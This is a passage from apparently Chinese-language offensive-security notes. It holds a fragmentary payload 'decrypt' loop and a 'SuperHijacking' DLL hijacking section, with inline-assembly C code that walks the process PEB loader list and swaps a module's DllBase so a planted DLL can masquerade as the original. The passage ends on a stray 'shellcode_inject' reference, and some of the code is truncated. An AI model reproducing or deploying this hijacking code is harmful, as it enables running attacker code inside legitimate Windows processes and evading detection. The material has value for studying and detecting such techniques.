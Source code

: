 ```c
//decrypt
for (int i = 0; i < sizeof(a1); i++) {
	memcpy(&data[i * 3], &a1[i], 1);
}
```

## Dll hijacking
### 通用Dll劫持技术---SuperHijacking

https://anhkgg.com/dllhijack/
https://github.com/anhkgg/anhkgg-tools
![-w503](https://i.loli.net/2021/01/18/L15tG9ci3UAIpla.jpg)

![-w530](https://i.loli.net/2021/01/18/8fejE1ApGcMwSOZ.jpg)

代码实现
```c
void* NtCurrentPeb()
{
	__asm {
		mov eax, fs:[0x30];
	}
}
PEB_LDR_DATA* NtGetPebLdr(void* peb)
{
	__asm {
		mov eax, peb;
		mov eax, [eax + 0xc];
	}
}
VOID SuperDllHijack(LPCWSTR dllname, HMODULE hMod)
{
	WCHAR wszDllName[100] = { 0 };
	void* peb = NtCurrentPeb();
	PEB_LDR_DATA* ldr = NtGetPebLdr(peb);

//InLoadOrderModuleList; 模块加载顺序
	for (LIST_ENTRY* entry = ldr->InLoadOrderModuleList.Blink;
		entry != (LIST_ENTRY*)(&ldr->InLoadOrderModuleList);
		entry = entry->Blink) {
		PLDR_DATA_TABLE_ENTRY data = (PLDR_DATA_TABLE_ENTRY)entry;

		memset(wszDllName, 0, 100 * 2);
		memcpy(wszDllName, data->BaseDllName.Buffer, data->BaseDllName.Length);

		if (!_wcsicmp(wszDllName, dllname)) {
			data->DllBase = hMod;
			break;
		}
	}
}
VOID DllHijack(HMODULE hMod)
{
	TCHAR tszDllPath[MAX_PATH] = { 0 };

	GetModuleFileName(hMod, tszDllPath, MAX_PATH);
	PathRemoveFileSpec(tszDllPath);
	PathAppend(tszDllPath, TEXT("mydll.dll.1"));

	HMODULE hMod1 = LoadLibrary(tszDllPath);

	SuperDllHijack(L"mydll.dll", hMod1);
```

[go/shellcode_inject/virtual>>]: generate